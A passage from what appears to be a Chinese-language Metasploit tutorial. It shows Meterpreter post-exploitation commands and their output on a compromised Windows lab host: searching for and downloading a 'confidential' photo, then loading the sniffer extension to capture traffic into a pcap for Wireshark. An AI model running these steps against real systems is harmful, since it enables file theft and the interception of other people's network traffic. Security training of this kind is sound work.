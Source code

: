 想想stuxnet是怎么进入隔离网络的。

#### 查找文件

这个功能很酷炫！假设我们获知目标系统上有一张名为`p2422196991`的机密照片，我们要获取这张照片。

```
meterpreter > search -f p2422196991.*
Found 2 results...
    c:\Documents and Settings\Administrator\Recent\p2422196991.lnk (468 bytes)
    e:\gadgets\p2422196991.jpg (1130039 bytes)
```

然后就可以下载了！

```
meterpreter > download e:\\gadgets\\p2422196991.jpg
[*] Downloading: e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] Downloaded 1.00 MiB of 1.08 MiB (92.79%): e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] Downloaded 1.08 MiB of 1.08 MiB (100.0%): e:\gadgets\p2422196991.jpg -> p2422196991.jpg
[*] download   : e:\gadgets\p2422196991.jpg -> p2422196991.jpg
```

或许有人想看看这张照片：

![Bildschirmfoto 2018-10-30 um 10.00.25 PM.png]({{ site.url }}/images/metasploit/E3C3424AA4D58C2DE395828611652A16.png)

## 高级扩展功能

#### 流量嗅探

```bash
meterpreter > load sniffer
Loading extension sniffer...Success.
# 列出所有接口
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:false wifi:false )

# 开始嗅探，缓冲区大小为1000
meterpreter > sniffer_start 1 1000
[*] Capture started on interface 1 (1000 packet buffer)
# 下载流量包
meterpreter > sniffer_dump 1 xp_1.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 38 packets (6192 bytes)
[*] Downloaded 100% (6192/6192)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to xp_1.pcap
```

然后就可以在Wireshark中查看：

![Bildschirmfoto 2018-10-30 um 10.21.25 PM.png]({{ site.url }}/images/metasploit/D51ABD30003AE5D8F594119B1597E892.png)
